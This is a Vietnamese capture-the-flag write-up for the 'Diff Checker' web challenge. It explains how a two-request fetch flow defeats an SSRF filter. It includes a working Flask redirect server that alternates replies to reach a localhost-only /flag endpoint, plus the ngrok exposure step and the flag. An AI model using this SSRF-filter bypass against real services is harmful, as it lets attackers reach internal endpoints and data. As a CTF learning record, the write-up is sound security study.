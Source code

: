 # Diff Checker

Mình vẫn chưa solve được bài này tại giải do có một ít bruh .__. Bài này sử dụng một kĩ thuật khá hay giống với thứ mình mới học gần đây nên mình viết write up để lưu lại :>

## Hmmmmmm

Sau khi nghiên cứu source thì ai cũng biết flag được giấu ở đây :)). Để lấy được flag thì mình phải request đến `/flag` bằng một địa chỉ local.

```js
app.get('/flag', (req, res) => {
	if(req.connection.remoteAddress == '::1'){ // check ip local
		res.send(flag)}
	else{
		res.send("Forbidden", 503)}
});
```

Server sẽ request 2 lần đến địa chỉ mà mình cung cấp:

* Lần 1 là kiếm tra SSRF tại hàm `validifyURL`

```js
valid = await fetch(url, {agent: ssrfFilter(url)})
```

* Lần 2 là thực hiện `fetch` để lấy nội dung tại hàm `diffURLs`

```js
const pageOne = await fetch(urls[0]).then((r => {return r.text()}));
```

Khi request lần đầu, server sẽ check SSRF do đó URL mình nhập vào không được trỏ đến các địa chỉ bị filter như: `localhost`, `127.0.0.1`, `0.0.0.0`,... Sau khi đã pass được đoạn check SSRF thì mình cần phải trỏ đến server bằng địa chỉ local để lấy được flag.

Với ý tưởng như trên mình có thể dễ dàng solve được bài này bằng kĩ thuật DNS Rebinding nhưng ở đây, mình sẽ tự build một cái service tương tự, đây chính là thứ mình muốn note lại.

***But ưtf is D N S R e b i n d i n g ????***

![dejavu](images/dejavu.png)

DNS Rebinding ở các bài viết trước của mình:

* [Ez SQL (ISITDTU CTF QUALS 2021)](https://github.com/woanmeo11/ctf-writeups/tree/main/ISITDTU%20CTF%20QUALS%202021/ez%20sql)

* [A tiny hole (Cookie Arena Season 1)](https://github.com/woanmeo11/ctf-writeups/tree/main/Cookie%20Arena%20Season%201/A%20tiny%20hole)

## Do it

Đây là một đoạn code mình dựa trên ý tưởng vừa rồi, `backend.py`:

```python
from flask import Flask, redirect
import requests

app = Flask(__name__)
bit_flip = 0

# This function works like DNS Rebinding technique.
@app.route("/")
def rebinding():
    global bit_flip
    bit_flip += 1
    if bit_flip & 1:
        return 'bruh'
    else:
        return redirect('http://localhost:1337/flag')

app.run('localhost', 1234)
```

Đoạn code trên sẽ xoay vòng trả về `bruh` hoặc chuyển hướng đến `http://localhost:1337/flag`.

Tiếp theo là chạy file `backend.py` và dùng `ngrok` để public lên internet:

```console
$ ngrok http localhost:1234

ngrok by @inconshreveable                                                                                (Ctrl+C to quit)

Session Status                online
Account                       woanmeo11 (Plan: Free)
Version                       2.3.40
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://e0cc-14-242-198-247.ngrok.io -> http://localhost:1234
Forwarding                    https://e0cc-14-242-198-247.ngrok.io -> http://localhost:1234

Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00
```

Cuối cùng, dùng URL mình nhận được từ `ngrok` và exploit thôi xD

![exploit](images/exploit.png)

Wait for it.

![flag](images/flag.png)


Flag: `idek{d1ff3r3nc3_ch3ck3r_d3ce1v3d_bY_d1ff3r3nc3s}`

#

Technique này mình note lại từ `downgrade` <3
